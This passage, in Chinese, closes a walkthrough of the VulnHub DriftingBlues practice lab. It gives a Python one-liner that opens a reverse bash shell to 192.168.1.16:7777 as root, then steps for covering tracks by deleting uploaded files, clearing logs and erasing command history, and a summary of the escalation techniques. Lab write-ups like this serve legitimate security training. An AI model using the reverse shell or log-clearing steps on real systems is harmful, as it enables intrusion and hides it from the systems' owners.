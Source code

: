 ![](D:\stu\vulnhub\DriftingBlues靶场\pic-4\29.jpg)

如果认为上面的代码太长，也可以使用下面代码，可以直接获得交互式界面

```shell
import os
os.system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.16/7777 0>&1'")
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-4\29-1.jpg)

查看`root`的`flag`

![](D:\stu\vulnhub\DriftingBlues靶场\pic-4\30.jpg)

# 清除痕迹

把`hubert`目录下的文件恢复到原本的状态，别忘了`.ssh`是创建的

![](D:\stu\vulnhub\DriftingBlues靶场\pic-4\31.jpg)

删除在`/tmp`创建和上传的文件

![](D:\stu\vulnhub\DriftingBlues靶场\pic-4\34.jpg)

清除各种日志

![](D:\stu\vulnhub\DriftingBlues靶场\pic-4\32.jpg)

清除命令历史记录

![](D:\stu\vulnhub\DriftingBlues靶场\pic-4\33.jpg)



# 总结

1. 考察几种解码的操作
2. 考察二维码的解析操作，这里使用`zbarimg`
3. 考察`ssh`服务的公私钥文件
4. 考察`ftp`服务的一些命令
5. 考察提权方式，例如自主创建的命令，这里是`getinfo`，具有SUID权限。定时任务提权，这里利用`pspy64`检测以`root`执行的定时任务，导致`python`文件同名替换，并利用`os.py`进行提取













